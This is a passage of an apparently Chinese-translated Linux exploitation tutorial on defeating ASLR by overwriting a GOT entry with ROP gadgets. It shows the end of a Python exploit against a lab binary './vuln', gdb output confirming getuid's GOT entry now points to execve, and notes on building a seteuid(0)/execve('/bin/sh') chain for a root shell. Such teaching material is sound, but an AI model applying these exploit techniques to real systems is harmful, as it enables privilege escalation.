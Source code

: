 ``` python
buf += conv(ebx) #ebx
buf += conv(g4) #mov 0x34(%esp),%eax; ...
for num in range(0,11):
 buf += conv(dummy)
buf += conv(g2) #pop ebx; pop ebp; ret;
ebx = 0xaaa99b40 #getuid@GOT-0x5d5b04c4
buf += conv(ebx)
buf += conv(off)
buf += conv(g1) #addl %eax, 0x5D5B04C4(%ebx); ret;
buf += "B" * 4
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上面的漏洞利用代码会生成一个core文件。打开core文件，可以看到GOT[getuid]被execve函数地址覆盖了(如下所示)  

```
$ python oexp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��ﾭ�ﾭ�ﾭ�ͅﾭހ�����ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭޢ�@���0�����BBBB
Len:376
sploitfun@sploitfun-VirtualBox:~/lsploits/new/aslr/part3$ sudo gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/aslr/part3/vuln...(no debugging symbols found)...done.
(gdb) core-file core 
[New LWP 18781]
warning: Can't read pathname for load map: Input/output error.
Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0 0x42424242 in ?? ()
(gdb) x/1xw 0x804a004
0x804a004 <getuid@got.plt>: 0xb761a1f0
(gdb) p getuid
$1 = {} 0xb761acc0 
(gdb) p execve
$2 = {} 0xb761a1f0 
(gdb)
```
太棒了，我们已经成功利用execve函数地址覆盖了getuid的GOT表项。因此从现在开始，任意对getuid的调用都会调用execve~~  

触发 root shell： 我们的漏洞利用代码还不完整。我们只执行了GOT覆盖但还没有触发root shell。 为了触发一个root shell， 将下面的libc函数(以及它们的参数)拷贝到栈中  

seteuid@PLT | getuid@PLT | seteuid_arg | execve_arg1 | execve_arg2 | execve_arg3  
这里  

* setuid@PLT - setuid的plt代码地址（0x80483c0)
* getuid@PLT - getuid的plt代码地址（0x80483b0)。 由于已经执行了GOT覆盖，这里会调用execve函数
* setuid_arg必须为0才能获取root shell
* execve_arg1 - 文件名 - 字符串“/bin/sh”的地址
* execve_arg2 - argv - 参数数组的地址，内容为[ “/bin/sh”的地址, NULL]
* execve_arg3 - envp - NULL
在这篇文章中，由于我们没有直接用0来溢出缓冲区(0是个不好的字符), 我们利用strcpy调用链拷贝0用来替代setuid_arg。反由于栈是被随机化的，这种方法在这里并不可行， 找出setuid_arg栈的地址变得困难起来。  
